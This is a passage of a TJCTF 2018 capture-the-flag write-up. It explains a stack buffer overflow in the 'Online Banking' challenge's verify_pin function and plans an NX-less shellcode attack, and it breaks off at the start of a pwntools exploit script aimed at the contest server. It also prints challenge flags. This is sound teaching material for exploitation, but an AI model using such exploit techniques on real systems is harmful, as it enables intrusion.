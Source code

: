 ```python
sh.sendafter('> ', '12345\n')
sh.interactive()
```

Flag: `tjctf{n1c3_j0b_y0u_r34lly_GOT_m3_600d}`

# Online Banking - Binary Exploitation

## Problem

Written by nthistle

Try out our new online banking service!

[binary](/blog/tjctf-2018-writeup/Online%20Banking/problem) [source](/blog/tjctf-2018-writeup/Online%20Banking/problem.c)

## Solution

Reading the C source code, we quickly notice that the `verify_pin` function is vulnerable to a buffer overflow attack where it tries to read `NAME_SIZE+1` bytes into a `PIN_SIZE+1` bytes array:

```c
int verify_pin(char* pin) {
    char pin_check[PIN_SIZE+1];
    printf("Please verify your PIN first:\nPIN: ");
    fgets(pin_check, NAME_SIZE+1, stdin);
    for(int i = 0; i < 4; i ++) {
        if(pin[i] != pin_check[i])
            return 0;
    }
    return 1;
}
```

This allows us to control the instruction pointer of the program. The next step would be to figure out a way of reading the flag.

Conveniently, we are given the ability to write up to 33 bytes into the program memory using the Name input and the program is not [NX](https://en.wikipedia.org/wiki/NX_bit) protected:

```
vagrant@ubuntu-bionic:/ctf/tjctf/Online Banking$ r2 ./problem
 -- I nodejs so hard my exams. What a nodejs!
[0x00400680]> i~nx
nx       false
```

This gives us a perfect condition to use a shellcode.

Code:

```python
from pwn import *

# context.log_level = 'debug'
context.binary = './problem'

# sh = process('./problem')
sh = remote('problem1.tjctf.org', 8005)

name_addr = 0x006010a0

PIN = '1234'

# from https://www.exploit-db.com/exploits/36858/
```